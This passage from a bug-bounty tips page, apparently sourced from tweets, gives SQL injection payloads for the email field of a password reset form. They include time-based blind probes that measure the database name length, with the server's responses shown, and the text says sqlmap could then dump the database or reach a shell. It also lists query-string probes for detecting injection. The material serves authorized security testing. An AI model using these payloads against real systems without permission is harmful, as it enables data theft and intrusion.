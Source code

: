 By [@HackENews](https://twitter.com/HackENews)  
Source: [link](https://twitter.com/HackENews/status/1306972009721520129)

Here’s another tip that can be helpful for testing of password reset functionalities.

Using the following payload examples with non-typical email address formats, the author was able to find SQL injection in the web application:

| Payload | Result | Injection Status | Description |
| --- | --- | --- | --- |
| {“email”:”asd@a.com”} | {“code”:2002,”status”:200,”message”:”Email not found.”} | Valid |     |
| {“email”:”asd a@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”\\”asd a\\”@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”asd(a)@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”\\”asd(a)\\”@a.com”} | {“code”:2002,”status”:200,”message”:”Email not found.”} | Valid |     |
| {“email”:”asd’a@a.com”} | {“code”:0,”status”:500,”message”:”Unspecified error”} | Not Valid |     |
| {“email”:”asd’or’1’=’1@a.com”} | {“code”:2002,”status”:200,”message”:”Email not found.”} | Valid |     |
| {“email”:”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1@a.com”} | {“code”:2002,”status”:200,”message”:”Bad format”} | Not Valid |     |
| {“email”:”\\”a’-IF(LENGTH(database())>9,SLEEP(7),0)or’1’=’1\\”@a.com”} | {“code”:0,”status”:200,”message”:”Successful”} | Valid | Delay: 7,854 milis |
| {“email”:”\\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\\”@a.com”} | {“code”:0,”status”:200,”message”:”Successful”} | Valid | Delay: 8,696 milis |
| {“email”:”\\”a’-IF(LENGTH(database())=11,SLEEP(7),0)or’1’=’1\\”@a.com”} | {“code”:0,”status”:200,”message”:”Successful”} | Valid | No delay |

In this example, the author was able to determine that the database name length is 10 characters long, as a proof of concept. By automating it with [Sqlmap](https://github.com/sqlmapproject/sqlmap), it would be possible to dump the whole database or even achieve RCE and get a shell, depending on the database back-end.

Note that the SQL injection was triggered by placing quotes (“) before the at (@) character, here:

-   “injection\_here”@example.com

Email addresses with quotes are valid email addresses, see [restrictions on email addresses](https://tools.ietf.org/html/rfc3696#section-3) in RFC3696.

See also related tips [BBT2-8](https://www.infosecmatter.com/bug-bounty-tips-2-jun-30/#8-e-mail-address-payloads) and [BBT5-11](https://www.infosecmatter.com/bug-bounty-tips-5-aug-17/#11-valid-email-addresses-with-evil-payloads) also using non-typical email address formats.

## 3\. Tests for identifying SQL injections 100%

By [@HackENews](https://twitter.com/HackENews)  
Source: [link](https://twitter.com/HackENews/status/1306973288594247680)

This is how to find SQL injection 100% of the time, if there is one:

```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```
